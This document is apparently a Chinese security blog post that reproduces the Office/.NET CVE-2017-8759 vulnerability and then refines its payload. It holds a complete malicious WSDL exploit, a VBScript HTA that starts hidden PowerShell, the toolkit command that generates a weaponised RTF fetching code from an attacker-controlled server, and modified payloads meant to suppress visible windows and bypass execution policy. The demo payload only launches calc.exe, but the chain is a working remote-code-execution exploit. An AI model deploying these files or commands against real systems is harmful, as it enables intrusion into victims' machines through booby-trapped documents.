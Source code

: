 ```yaml
---
title: "Office CVE-2017-8759 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞原理移步 [安全客](https://www.anquanke.com/post/id/86833).

环境 Windows7, Office 2010.

<!--more-->

## 复现过程

[bhdresh/CVE-2017-8759](https://github.com/bhdresh/CVE-2017-8759)

搭建服务器, 创建 exploit.txt 并更改 URL.

```
<definitions
    xmlns="http://schemas.xmlsoap.org/wsdl/"
    xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
    xmlns:suds="http://www.w3.org/2000/wsdl/suds"
    xmlns:tns="http://schemas.microsoft.com/clr/ns/System"
    xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
<portType name="PortType"/>
<binding name="Binding" type="tns:PortType">
<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
<suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
</binding>
<service name="Service">
<port name="Port" binding="tns:Binding">
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
</port>
</service>
</definitions> 
```

同目录下创建 cmd.hta.

```
<html>
<head>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("powershell.exe -nop -w hidden calc.exe", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```

生成文档.

```
cve-2017-8759_toolkit.py -M gen -w test.rtf -u http://192.168.1.1:8000/exploit.txt
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801222637.png)

复现成功, 命令只执行了一次, 但这里会先闪一下 hta 的窗口.

最开始复现的时候我有两个问题: 1. 为什么要通过 hta 执行 2. 为什么不能直接在 exploit.txt 中一次执行成功而非要用 hta.

## 改进载荷

关于第一个问题, 请看代码.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
```

拼接在源文件中是这样的.

```
......
public Image()
{
    base.ConfigureProxy(this.GetType(), @"http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta");
    //base.ConfigureProxy(this.GetType(),@";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //");
}
......
```

原理中也提到了, 这是 .Net 一处拼接错误而导致的代码执行漏洞, 也就是说理论上我们能够执行任意代码.

而 xml 中的 location, 通过 ? 被分割成三个部分, 然后提取第二部分作为执行文件, 第三部分作为命令参数.

所以这个其实跟空格没有半点关系, 完全就是为了方便通过 ? 截取到命令和参数两个部分, 而第一个部分只是针对 .Net 的验证罢了, 只要符合 URL 规范就行. 之所以在这里要费劲心思截取 url 是因为 xml 语法的问题, 但 C# 的单引号只表示单个字符.

关于第二个问题, 为什么要通过 hta 执行?

如果说是针对低版本系统例如 2003, 那么其实还有很多种选择, 比如 regsvr32, regsvcs, 甚至你也可以直接通过下载 exe 来执行, 但这里访问的 hta 里执行的命令是 powershell, 那么为什么不直接一步到位呢?

前面说了, 这是代码执行漏洞, 理论上我们能够执行任意代码, 同样, 通过 Process.Start 启动的进程理论上也可以是任意文件, 比如.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\cmd.exe?/c calc.exe"/>
```

这样是能够执行成功的, 但如果换成 powershell 呢?

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?-c calc.exe"/>
```

执行失败了. 我们仔细想想这两行代码之间有什么区别, 前者的命令参数是 /c, 后者的命令参数是 -c.

推测是 - 这个字符导致命令执行不成功的, 下面就要引入一个新姿势了.

```
powershell.exe /c calc.exe
```

这是可以成功的, 适用于大部分参数.

加上一点其它东西, 那么代码就可以改成.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?/ep bypass /noprofile /w hidden /c calc.exe"/>
```

执行成功. 不过你会发现 powershell 窗口还是会一闪而过, 即使我们指定了 /w hidden, 怎么办呢?

基于 C# 的特性, 我们可以通过 System.Diagnostics.Process.StartInfo 创建一个进程并将窗口设置为 hidden, 就像这样.

```
p.FileName = _url.Split('?')[1];
p.Arguments = _url.Split('?')[2];
p.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
System.Diagnostics.Process.Start(p);
```

重新打开文档, 将会自动弹出计算器而不是先显示一遍窗口 :)

## 一些话

在写下这篇文章的时候又测试了一遍, 发现 -c 其实是可以执行成功的, 但通过带宏文档复现的时候确实是执行失败了, 只能通过 /c 方式绕过, 不过使用宏这种方式利用已经是很鸡肋的了, 还有很多比这更简单的方法.

上文中原来的 Payload 其实就是将行为和特征分离, 不过过程对我来说也算是一种尝试吧.

另外对于 rtf 的其它细节在之前的文章中已经讲过, 就不再重复说明了.